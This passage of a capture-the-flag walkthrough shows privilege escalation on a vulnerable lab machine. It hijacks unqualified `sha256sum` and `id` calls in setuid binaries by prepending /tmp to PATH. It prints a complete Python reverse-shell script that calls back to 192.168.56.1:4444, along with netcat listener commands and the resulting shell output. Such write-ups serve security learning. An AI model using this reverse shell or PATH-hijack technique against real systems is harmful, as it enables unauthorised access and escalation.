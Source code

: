 This should give you a pretty good idea of what is potentially going on in the binary, like:

   - Check the sha256sum of /gome/bazza/part matches 900462fbf9593f1a4b753f1729c431abc80932a151e9b293e13822a91f9641c1
   - Check the sha256sum of /usr/bin/id matches 1003a011c5bdb65a07a8f92feb6b7d7ecbf3a3ff0f2a46abbe5c777c525996d8
   - Eventually Fail if these don’t match.

The key lies in the fact that the `sha256sum` command does not appear to be called from its full path location ie: /usr/bin/sha256sum. So, similar to how we fooled the `chmod` earlier, we are going to do exactly the same with the `sha256sum`.

As before, we create a _evil sha256sum_ command, which is actually just a python script to spawn `/bin/sh`, then prefix `PATH` with `/tmp` and run `./part1`. For this one however, I was having trouble with the pty.spawn() and didn't really feel like troubleshooting that much. So I opted for a (reverse shell)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] payload instead to open on a netcat listener that I have on my host laptop:

```python
#!/usr/bin/python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p = subprocess.call(["/bin/sh","-i"])
```

I spawned a `netcat` listener on my laptop using `nc -l 4444`, and ran `./part1`:


```bash
→ nc -l 4444
$ id
uid=1004(bazza) gid=1004(bazza) egid=1003(developers) groups=1004(bazza)
```

Notice that I was now in the `developers` group. I was now allowed to run `./part2` too... with a verbose line showing me the permissions I would need to gain access to `/home/oj`:

```bash
$ ./part2
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)

Can't touch this *nah na na na na naaaaaaaa nah*
$
```
And, as expected, I spent some time on this binary too. I didn't expect `part2` to be any easier :P
After taking a break, I realized that the output that looks like that of `/usr/bin/id`, probably **is** that if it. So, off I went and did another `sha256sum`, type script, this time just with another reverse shell to port 4445, and naming it `id` so that part2 will pick it up:

```bash
→ nc -l 4445
$ /usr/bin/id
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)

$ cd /home/oj
$ ls -lh
total 584K
-r-sr-xr-x 1 root root 579K Jul  5 21:12 echo
-rw-r--r-- 1 root root  154 Jul  5 21:06 How to be an infosec rockstar 101.txt
$
```
